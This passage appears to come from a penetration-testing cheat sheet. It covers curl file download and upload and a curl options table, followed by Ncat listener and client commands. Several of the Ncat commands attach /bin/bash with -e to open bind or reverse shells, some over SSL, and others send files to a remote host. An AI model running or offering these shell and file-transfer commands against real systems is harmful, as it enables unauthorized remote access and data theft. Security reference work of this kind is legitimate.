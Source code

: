 ### cURL

Download a file:

```fundamental
curl somesite.com/somefile.txt -o somefile.txt
```

Upload a file:

```fundamental
curl somesite.com/uploads/ -T somefile.txt
```

Find out how to test a web server for various HTTP methods and method overrides from my other [project](https://github.com/ivan-sincek/forbidden).

| Option | Description |
| --- | --- |
| -d | Sends the specified data in a POST request to the HTTP server |
| -H | Extra header to include in the request when sending HTTP to a server |
| -i | Include the HTTP response headers in the output |
| -k | Proceed and operate server connections otherwise considered insecure |
| -o | Write to file instead of stdout |
| -T | Transfers the specified local file to the remote URL, same as PUT method |
| -v | Make the operation more talkative |
| -x | Use the specified proxy (\[protocol://\]host\[:port\]) |
| -X | Specifies a custom request method to use when communicating with the HTTP server |

### Ncat

\[Server\] Set up a listener:

```fundamental
ncat -nvlp 9000

ncat -nvlp 9000 > received_data.txt

ncat -nvlp 9000 -e /bin/bash

ncat -nvlp 9000 -e /bin/bash --ssl

ncat -nvlp 9000 --ssl-cert crt.pem --ssl-key key.pem

ncat -nvlp 9000 --keep-open <<< "HTTP/1.1 200 OK\r\n\r\n"
```

\[Client\] Connect to a remote host:

```fundamental
ncat -nv 192.168.8.5 9000

ncat -nv 192.168.8.5 9000 < sent_data.txt

ncat -nv 192.168.8.5 9000 -e /bin/bash

ncat -nv 192.168.8.5 9000 -e /bin/bash --ssl

ncat -nv 192.168.8.5 9000 --ssl-cert crt.pem --ssl-key key.pem
```
